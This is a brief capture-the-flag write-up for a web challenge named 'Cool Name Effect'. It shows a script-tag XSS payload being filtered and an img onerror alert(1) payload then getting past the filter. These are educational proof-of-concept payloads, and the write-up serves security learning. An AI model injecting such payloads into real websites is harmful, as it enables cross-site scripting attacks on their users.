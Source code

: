 # Cool Name Effect

## Challenge Description

Webmaster developed a simple script to do cool effects on your name, but his code not filtering the inputs correctly execute javascript alert and prove it.

## Solution

![homepage](homepage.png)

As the description says i tried simple payload like 

` <script>alert(1)</script> `

 but it says 

`<[forbidden]> alert(1)`  

just another common payload worked 

` <img src=x onerror=alert(1) > `


Happy Hacking,

Chapi Menge
